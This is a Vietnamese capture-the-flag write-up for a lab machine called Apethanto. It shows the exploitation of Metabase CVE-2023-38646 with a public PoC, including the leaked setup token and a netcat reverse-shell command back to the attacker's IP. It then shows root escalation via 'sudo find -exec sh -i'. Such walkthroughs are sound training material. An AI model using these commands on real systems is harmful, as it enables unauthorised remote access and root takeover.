


# [__Apethanto__](#apethanto)

## Exploit public interface, get User shell

Bài này thì sau khi vào web **apethanto.htb** và đi loanh quanh sẽ vào được 1 trang có trỏ đến địa chỉ subdomain **metabase.apethanto.htb**.

Search 1 lúc trên google và [exploitdb](https://www.exploit-db.com) thì tìm được **[CVE-2023-38646](https://github.com/shamo0/CVE-2023-38646-PoC/tree/main)** liên quan đến phiên bản Metabase mà nó đang host. 

Sử dụng theo hướng dẫn PoC ở trên, ta check địa chỉ 

```
/api/session/properties
``` 

và lấy được 

```
"setup-token":"819139a8-1ce9-46f0-acf8-9b4fc0d1164b"
```

Sau một hồi sử dụng các poc mà không được, cuối cùng cũng dùng được PoC của idol [Testanull](https://gist.github.com/testanull/a7beb2777bbf550f3cf533d2794477fe)

```vim
python3 pwn.py -u http://metabase.apethanto.htb -t 819139a8-1ce9-46f0-acf8-9b4fc0d1164b -c "nc 10.10.14.99 666 -e /bin/bash"
```

File khai thác [pwn.py](./Apethanto/pwn.py). *-c* là để nhét command gọi revershell về máy chúng ta.

Và sau khi lên được shell, ta sẽ đọc được file chứa flag và có được tầng user đầu tiên.

## Privilege Escalation, get Root shell

Thông thường, sau khi leo được user shell xong, ta sẽ bỏ tool vào để Discovery máy, tương tự với bước [Discovery](https://attack.mitre.org/tactics/TA0007/) của ATT&CK.

Ở đây, mình dùng tool [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) để liệt kê các thông tin có sẵn trong máy, tìm được khai thác.

Có hàng hà sa số các *cửu âm chân kinh* đã liệt kê cách thức leo quyền trong Linux rồi, có thể tham khảo tại:

```
https://gtfobins.github.io/
https://payatu.com/guide-linux-privilege-escalation
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
https://academy.hackthebox.com/course/preview/linux-privilege-escalation/introduction-to-linux-privilege-escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
https://oscp.infosecsanyam.in/priv-escalation
https://gtfobins.github.io/#+suid
https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-0-using-sudo-rights-3Q75w8x2KWb
```

Thường cách khai thác dễ nhất là thông qua **misconfigured SUDO rights**, ở đây may mắn là có.

Sử dụng lệnh sau để tìm các file có quyền **[SUID](https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-1-using-suid-bit-QpmlexgrZrd)** (Set-user Identification), ta thấy có **sudo**,

```vim
find / -perm -u=s -type f 2>/dev/null
```



Sử dụng **sudo** và **find**, ta có thể gọi shell với quyền **ROOT** luôn.

```shell
sudo find /home -exec sh -i \;
```

Giải thích thêm về lệnh trên: 
>
> * **sudo** : cho phép bất cứ user nào sử dụng nó được sử dụng dưới quyền của owner (owner của sudo hiện tại là user **ROOT**)
>
> * **find** : vì nó được gọi bằng process có quyền **root** nên nó có thể được sử dụng bằng quyền **root** luôn.
>
> 	+ Lệnh *find* có 1 parameter là **-exec**, lệnh này cho phép *find* sau khi tìm được file theo yêu cầu có thể thực thi process bất kì nào đó (grep, cut, awk, ...)
>	+ Lợi dụng điều này, ta có thể execute một lệnh để tạo 1 con shell
> 
> * **sh** đây là shell mà ta lợi dụng *find* để tạo (tất nhiên là được kế thừa luôn quyền **root**), *-i* là interactive mode
>

Sau khi có root shell rồi thì đi tìm flag thôi.

